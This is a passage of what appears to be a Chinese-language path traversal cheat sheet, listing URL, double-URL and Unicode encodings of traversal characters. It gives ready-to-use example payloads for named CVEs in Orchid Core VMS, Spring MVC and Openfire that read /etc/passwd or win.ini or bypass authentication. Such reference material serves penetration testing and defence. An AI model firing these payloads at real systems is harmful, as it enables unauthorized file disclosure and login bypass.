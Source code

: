 | 字符 | 编码 |
| --- | -------- |
| `.` | `%2e` |
| `/` | `%2f` |
| `\` | `%5c` |

**示例:** IPConfigure Orchid Core VMS 2.0.5 - 本地文件包含

```ps1
{{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### 双重 URL 编码

双重 URL 编码是指对一个字符串应用两次 URL 编码的过程。在 URL 编码中，特殊字符被替换为 `%` 后跟其十六进制 ASCII 值。双重编码对已经编码的字符串重复此过程。

| 字符 | 编码 |
| --- | -------- |
| `.` | `%252e` |
| `/` | `%252f` |
| `\` | `%255c` |

**示例:** Spring MVC 目录遍历漏洞 (CVE-2018-1271)

```ps1
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```

### Unicode 编码

| 字符 | 编码 |
| --- | -------- |
| `.` | `%u002e` |
| `/` | `%u2215` |
| `\` | `%u2216` |

**示例**: Openfire 管理控制台 - 身份验证绕过 (CVE-2023-32315)

```js
{{BaseURL}}/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

### 过长 UTF-8 Unicode 编码

UTF-8 标准规定每个代码点应使用最少的字节数来表示其显著位。任何使用比所需更多字节的编码被称为“过长”，并且根据 UTF-8 规范被视为无效。这条规则确保了代码点与其有效编码之间的一一映射，保证每个代码点都有一个单一、唯一的表示。
